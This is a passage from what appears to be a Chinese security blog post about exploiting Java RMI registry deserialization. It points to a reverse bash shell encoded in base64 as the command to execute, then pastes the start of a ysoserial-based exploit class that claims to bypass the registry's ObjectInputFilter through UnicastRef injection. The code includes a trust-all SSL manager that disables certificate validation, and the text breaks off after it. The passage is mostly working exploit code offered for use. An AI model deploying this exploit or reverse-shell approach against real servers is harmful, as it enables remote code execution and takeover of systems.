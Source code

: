 本地调试好自己去开始可以去执行命令了，比如反弹bash,借用下[http://jackson.thuraisamy.me/runtime-exec-payloads.html](http://jackson.thuraisamy.me/runtime-exec-payloads.html)需要转成base64之后执行。最后贴下代码吧：

```
package ysoserial.exploit;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import sun.rmi.server.UnicastRef;
import sun.rmi.server.UnicastServerRef;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.ObjectPayload.Utils;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.Reflections;
import ysoserial.secmgr.ExecCheckingSecurityManager;
import sun.rmi.registry.RegistryImpl;

import javax.management.remote.rmi.RMIConnectionImpl_Stub;
import javax.net.ssl.*;
import java.io.IOException;
import java.io.ObjectInput;
import java.io.ObjectOutput;
import java.io.Serializable;
import java.lang.reflect.*;
import java.net.Socket;
import java.rmi.ConnectIOException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.activation.Activator;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.security.cert.X509Certificate;
import java.util.concurrent.Callable;

/**
 * 使用UnicastRef注入，绕过ObjectInputFilter checkInput对几个基础类型的检测
 * sun.rmi.registry.
 */
public class RMIRegistryExploit2 {
    private static class TrustAllSSL extends X509ExtendedTrustManager {
        private static final X509Certificate[] ANY_CA = {};

        public X509Certificate[] getAcceptedIssuers() {
            return ANY_CA;
        }

        public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

        public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

        public void checkServerTrusted(final X509Certificate[] c, final String t, final SSLEngine e) { /* Do nothing/accept all */ }

        public void checkServerTrusted(final X509Certificate[] c, final String t, final Socket e) { /* Do nothing/accept all */ }

        public void checkClientTrusted(final X509Certificate[] c, final String t, final SSLEngine e) { /* Do nothing/accept all */ }

        public void checkClientTrusted(final X509Certificate[] c, final String t, final Socket e) { /* Do nothing/accept all */ }
```
